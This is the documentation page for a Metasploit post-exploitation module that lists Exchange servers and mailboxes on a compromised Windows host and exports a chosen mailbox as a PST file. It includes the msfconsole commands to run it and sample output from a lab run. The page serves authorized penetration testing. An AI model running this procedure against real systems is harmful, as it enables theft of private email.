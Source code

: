 ## Vulnerable Application

  This module will gather information from an on-premise Exchange Server running on the target machine.

  Two actions are supported:

  `LIST` (default action): List basic information about all Exchange servers and mailboxes hosted on the target.

  `EXPORT`: Export and download a chosen mailbox in the form of a .PST file, with support for an optional filter keyword.

  It requires that the effective Meterpreter session user be assigned to the "Organization Management" role group.

## Verification Steps
 
  1. Start msfconsole
  2. Get meterpreter session on a Windows target running an Exchange Server
  3. Do: `use post/windows/gather/exchange`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  **SESSION**

  The session to run this module on.

  **FILTER**

  Filter to use when exporting a mailbox, see [Microsoft documentation](https://docs.microsoft.com/en-us/exchange/filterable-properties-for-the-contentfilter-parameter) for valid values.

  Unused for LIST action, optional for EXPORT action.

  **MAILBOX**

  Mailbox to export. Can be a mailbox's email address or display name.

  Unused for LIST action, required for EXPORT action.

## Extracted data

### LIST action
  For every server:

  - Server name
  - Server version
  - Server role
  - For every mailbox in server:
    - Mailbox display name
    - Mailbox email addresses
    - Mailbox creation date
    - Mailbox address list membership
    - For every folder in mailbox:
      - Folder Path
      - Items in folder
      - Folder size
      - Newest item received date

### EXPORT action
    .PST file with the chosen mailbox's mail items

## Scenarios

### Windows Server 2012 R2 with On-Premise Exchange Server 2010

  ```
  msf6 exploit(multi/handler) > use post/windows/gather/exchange
  msf6 post(windows/gather/exchange) > set SESSION 1
  SESSION => 1
  msf6 post(windows/gather/exchange) > run -a LIST

  [+] Exchange Server is present on target machine
  [+] PowerShell is present on target machine
  [+] Listing reachable servers and mailboxes:
  ----------
  Server:
  - Name: WIN-49S7K9MJUAF
  - Version: Version 14.3 (Build 123.4)
  - Role: Mailbox, ClientAccess, HubTransport
  -----
  Mailboxes:
  ---
  - Display Name: Administrator
  - Email Addresses: SMTP:Administrator@example.corp
  - Creation date: 12/02/2020 01:01:43
  - Address list membership: \Mailboxes(VLV) \All Mailboxes(VLV) \All Recipients(VLV) \Default Global Address List \All Users
  - (All folders are empty)
  ---

  [...]

  [*] Post module execution completed
  msf6 post(windows/gather/exchange) > set MAILBOX "Administrator"
  MAILBOX => Administrator
  msf6 post(windows/gather/exchange) > run -a EXPORT

  [+] Exchange Server is present on target machine
  [+] PowerShell is present on target machine
  [+] Exporting mailbox 'Administrator':
  Exporting mailbox...
  . Queued
  . Queued
  . Queued
  . InProgress
  . Completed
  Exporting done
  [*] Resulting export file size: 0.26 MB
  [+] PST saved in: /home/user/.msf4/loot/20210309120402_default_192.168.1.70_PST_427036.pst
  [*] Post module execution completed
  msf6 post(windows/gather/exchange) >
  ```
